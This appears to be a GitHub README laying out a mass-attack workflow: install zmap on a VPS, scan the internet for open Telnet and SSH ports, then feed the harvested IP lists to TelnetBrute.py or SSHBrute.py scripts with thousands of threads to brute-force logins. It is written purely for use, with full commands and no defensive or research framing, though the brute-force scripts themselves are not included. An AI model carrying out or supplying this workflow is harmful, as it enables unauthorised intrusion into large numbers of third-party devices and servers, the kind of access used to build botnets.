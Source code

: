 [VPS CentOS 6.9/6.8 2GB-RAM] 

- Install zmap

1- sh zmap_auto_install.sh

- Scan Telnet/Ssh Ips

1- ulimit -n 999999

2- zmap -p23 -o mfutelnet.txt -N 25000    ---OR---    zmap -p22 -o mfussh.txt -w -N 25000

   1,5-(optional)  zmap -p23 -o mfutelnet.txt -w telnet.lst   ---OR---   zmap -p22 -o mfussh.txt -w ssh.lst

- Bruteforce 

2- ulimit -n 999999

3- python TelnetBrute.py mfutelnet.txt 15000 telnettest.txt    ---OR---    python SSHBrute.py mfussh.txt 15000 sshtest.txt 




<img src="https://raw.githubusercontent.com/XeljomudoX/TelnetBrute.py/master/lul.png">



